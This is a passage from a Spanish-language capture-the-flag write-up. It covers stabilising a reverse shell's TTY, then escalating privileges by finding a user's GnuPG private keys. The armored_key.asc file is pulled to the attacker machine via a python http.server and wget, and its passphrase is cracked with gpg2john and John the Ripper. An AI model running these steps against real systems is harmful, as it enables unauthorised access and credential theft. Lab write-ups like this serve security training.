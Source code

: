 ### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges

Si nos vamos a la siguiente carpeta:

```shell
ls -la /home/sandy/.gnupg/private-keys-v1.d
```

Info:

```
total 20
drwx------ 2 sandy sandy 4096 Sep  5 11:33 .
drwx------ 4 sandy sandy 4096 Oct  5 07:33 ..
-rw------- 1 sandy sandy 1255 Sep  5 11:33 0646B1CF582AC499934D8503DCF066A6DCE4DFA9.key
-rw------- 1 sandy sandy 2088 Sep  5 11:33 armored_key.asc
-rw------- 1 sandy sandy 1255 Sep  5 11:33 EF995B85C8B33B9FC53695B9A3B597B325562F4F.key
```

Veremos estos archivos bastante interesantes, nos vamos a pasar el archivo `armored_key.asc`a nuestra maquina atacante para `crackearlo` de esta forma:

```shell
python3 -m http.server
```

En la maquina atacante:

```shell
wget http://<IP_VICTIM>:8000/armored_key.asc
```

Una vez que nos lo descarguemos vamos a obtener el `hash` de la contraseña y `crackearlo` de esta forma:

```shell
gpg2john armored_key.asc > hash
john --wordlist=<WORDLIST> hash
```
